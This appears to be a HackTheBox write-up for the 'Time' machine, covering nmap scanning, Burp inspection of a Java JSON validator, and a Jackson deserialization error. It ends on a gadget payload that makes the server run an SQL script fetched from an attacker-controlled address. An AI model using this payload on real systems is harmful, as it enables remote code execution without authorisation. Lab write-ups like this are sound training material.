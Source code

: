 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Time
---
```


This machine has IP 10.10.10.214.

We enumerate:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:42 NZST
Nmap scan report for time (10.10.10.214)
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.57 seconds
```

We go to `http://time` and find an online JSON beautifier and validator.  Cool!  My first thought: I wonder how it validates it?  Does it run something?  I also recall that [you can use JSON instead of HTML](https://twitter.com/tsoding/status/1357636127184855040).  

I input `{"key":"val"}` and it indents it nicely.  Using Burp Suite, it seems to use a POST call, with these body parameters:
```
mode=1&data=%7B%22key%22%3A%22val%22%7D
```

I now try the Beautify option (which is in Beta) and these are the body parameters:
```
mode=2&data=%7B%22key%22%3A%22val%22%7D
```

This, however, gives the following error:
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

Using some basic attack methods using the Intruder tab in Burp Suite, it seems that any other `mode` number will default to `mode=1`.

Changing the body parameters to 
```
mode=1&data={"key":"val"}
```

gives the same output (as with `mode=2`), so we don't need to encode our query.

Trying to give it an array (`["key":"val"]`) does not work (it is invalid to the Beautifier, as it returns `null`).

I search the aforementioned error and find [this](https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array).  If I append this search with `"exploit"` I find [this](https://swapneildash.medium.com/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038).  

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;INIT=RUNSCRIPT FROM 'http://10.10.14.239/'"}]
```
  